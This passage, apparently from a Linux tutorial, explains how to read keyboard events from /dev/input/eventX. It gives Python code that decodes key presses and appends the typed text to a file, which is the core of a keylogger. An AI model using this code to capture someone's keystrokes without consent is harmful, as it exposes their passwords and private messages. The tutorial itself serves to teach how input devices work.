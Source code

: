 Are you curious like me? Let's see what happens if we directly listen to the keyboard event file:

```bash
cat /dev/input/event4
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/bede86af28b5e86c89fb2666e0c5ed16-3.png "Image-3")

As you can see, the output does not look friendly and is not digest, but it was to give you an overview of the content of the **eventX**.

* * *

###### HOW TO READ THE EVEN?

What you need to know is that the **eventX**, does not directly receive the characters hit on the keyboard but a data structure each time a key is pressed. The details of these a data structure are :

* **Timestamp**: The date of the event.
* **Even Code**: The type and code of the event (More information can be found [here](https://www.kernel.org/doc/html/v4.17/input/event-codes.html)).
* **Value**: A number that corresponds to the position of the key pressed.

Below the piece of code that will help us to retrieve all the needed information's:

```python
FORMAT = 'llHHI'
EVENT_SIZE = struct.calcsize(FORMAT)

in_file = open(infile_path, "rb")

event = in_file.read(EVENT_SIZE)
typed = ""

while event:
    (_, _, type, code, value) = struct.unpack(FORMAT, event)

    if code != 0 and type == 1 and value == 1:

        if code in qwerty_map:
            typed += qwerty_map[code]

    event = in_file.read(EVENT_SIZE)

    if len(typed) == 128:
        with open("out.txt", "a") as f:
            f.write(typed)
            typed = ""
```

Let's see together the purpose of the above piece of code and how we will use it to retrieve the structured data sent to our event file. We start by defining the format **FORMAT** pattern, which it's a string that tells Python what to read and how to sort it. **llHHI** means **long int**, **long int**, **short int**, **short int**, **int**.
